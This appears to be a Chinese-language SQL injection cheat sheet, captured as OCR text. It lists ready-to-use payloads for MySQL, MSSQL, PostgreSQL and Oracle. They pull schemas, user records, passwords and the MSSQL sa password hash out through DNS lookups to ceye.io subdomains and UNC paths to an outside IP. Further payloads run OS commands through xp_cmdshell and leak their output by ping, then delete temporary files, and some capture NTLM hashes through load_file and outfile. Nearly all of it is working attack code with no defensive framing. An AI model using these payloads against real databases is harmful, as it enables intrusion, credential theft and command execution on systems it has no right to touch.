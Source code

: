 	SELECT json_arrayagg(concat_ws(0x3a,table_schema,table_name)) from INFORMATION_SCHEMA.TABLES;
  ##### MYSQL UDF 命令执行
	见windows提权MYSQL udf
  ##### OOB
  	select @@version into outfile '\\\\192.168.0.100\\temp\\out.txt';
	select @@version into dumpfile '\\\\192.168.0.100\\temp\\out.txt
  ##### DNSLOG
  	MYSQL结合dnslog
	?id=1' and if((select load_file(concat('\\\\',(select database()),'.jhsefs.ceye.io\\sql_test'))),1,0)--+
	显示数据库
	?id=1' and if((select load_file(concat('\\\\',(select schema_name from information_schema.schemata limit {0},1),'.jhsefs.ceye.io\\sql_test'))),1,0)--+
	显示表
	?id=1' and if((select load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema='dbname' limit 0,1),'.jhsefs.ceye.io\\sql_test'))),1,0)--+
	?id=1' and if((select load_file(concat('\\\\',(select table_name from information_schema.tables where table_schema=0x1x1x2x limit 0,1),'.jhsefs.ceye.io\\sql_test'))),1,0)--+
	显示字段
	?id=1' and if((select load_file(concat('\\\\',(select column_name from information_schema.columns where table_name='users' limit 0,1),'.jhsefs.ceye.io\\sql_test'))),1,0)--+
	显示数据
	?id=1' and if((select load_file(concat('\\\\',(select hex(user) from users limit 0,1),'.jhsefs.ceye.io\\sql_test'))),1,0)--+
	MSSQL结合dnslog
	查数据
	?id=1;DECLARE @host varchar(1024);SELECT @host=(SELECT master.dbo.fn_varbintohexstr(convert(varbinary,rtrim(pass))) FROM test.dbo.test_user where [USER] = 'admin')%2b'.cece.nk40ci.ceye.io';EXEC('master..xp_dirtree "\'%2b@host%2b'\foobar$"');
	Sa密码
	?id=1DECLARE @host varchar(1024);SELECT @host=(SELECT TOP 1 master.dbo.fn_varbintohexstr(password_hash)FROM sys.sql_loginsWHERE name='sa')+'.ip.port.b182oj.ceye.io';EXEC('master..xp_dirtree"\'+@host+'\foobar$"');
	执行命令
	exec master..xp_cmdshell "whoami>D:/temp%26%26certutil -encode D:/temp D:/temp2%26%26findstr /L /V ""CERTIFICATE"" D:/temp2>D:/temp3";
	exec master..xp_cmdshell "cmd /v /c""set /p MYVAR=< D:/temp3 %26%26 set FINAL=!MYVAR!.xxx.ceye.io %26%26 ping !FINAL!""";
	exec master..xp_cmdshell "del ""D:/temp"" ""D:/temp2"" ""D:/temp3""";
	postgreSQL结合dnslog
	?id=1;DROP TABLE IF EXISTS table_output;CREATE TABLE table_output(content text);CREATE OR REPLACE FUNCTION temp_function() RETURNS VOID AS $$ DECLARE exec_cmd TEXT;DECLARE query_result TEXT;BEGIN SELECT INTO query_result (select encode(pass::bytea,'hex') from test_user where id =1);exec_cmd := E'COPY table_output(content) FROM E\'\\\\\\\\'||query_result||E'.pSQL.3.nk40ci.ceye.io\\\\foobar.txt\'';EXECUTE exec_cmd;END;$$ LANGUAGE plpgSQL SECURITY DEFINER;SELECT temp_function();
	Oracle结合dnslog
	?id=1 union SELECT UTL_HTTP.REQUEST((select pass from test_user where id=1)||'.nk40ci.ceye.io') FROM sys.DUAL;
	?id=1 union SELECT DBMS_LDAP.INIT((select pass from test_user where id=1)||'.nk40ci.ceye.io',80) FROM sys.DUAL;
	?id=1 union SELECT HTTPURITYPE((select pass from test_user where id=1)||'.xx.nk40ci.ceye.io').GETCLOB() FROM sys.DUAL;
	?id=1 union SELECT UTL_INADDR.GET_HOST_ADDRESS((select pass from test_user where id=1)||'.ddd.nk40ci.ceye.io') FROM sys.DUAL;
  ##### NTLM 哈希窃取
  	select load_file('\\\\error\\abc');
	select load_file(0x5c5c5c5c6572726f725c5c616263);
	select 'osanda' into dumpfile '\\\\error\\abc';
	select 'osanda' into outfile '\\\\error\\abc';
	load data infile '\\\\error\\abc' into table database.table_name;
